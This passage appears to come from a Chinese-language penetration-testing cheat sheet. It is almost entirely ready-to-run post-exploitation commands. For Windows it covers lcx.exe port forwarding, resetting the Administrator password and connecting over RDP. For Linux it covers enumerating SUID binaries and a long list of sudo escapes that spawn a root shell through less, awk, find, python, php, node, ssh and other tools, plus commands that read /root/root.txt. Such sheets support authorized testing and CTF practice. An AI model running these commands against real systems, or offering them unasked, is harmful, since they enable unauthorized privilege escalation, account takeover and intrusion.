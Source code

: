 - 或者上传 `lcx.exe` 进行端口转发

```cmd
lcx.exe -listen 22333 63389

lcx.exe -slave 10.26.14.222 22333 127.0.0.1 3389
```

- 修改管理员密码

```cmd
net user Administrator qW1@
```

- 连接RDP即可


### Linux

- SUID程序

```shell
find / -perm -u=s -type f 2>/dev/null
```

- sudo特权程序 参考GTFOBins 如

```shell
sudo less <SOME_FILE>
!/bin/sh

sudo apt changelog apt
!/bin/sh

sudo arp -v -f /root/root.txt
sudo comm /root/root.txt /dev/null 2>/dev/null
sudo curl file:///root/root.txt

sudo git help config
!/bin/sh

sudo TERM= more /etc/profile
!/bin/sh

sudo awk 'BEGIN {system("/bin/sh")}'

sudo find . -exec /bin/sh \; -quit

sudo mysql -e '\! /bin/sh'

sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

sudo php -r "system('/bin/sh');"

sudo python -c 'import os; os.system("/bin/sh")'

sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

sudo service ../../bin/sh
```
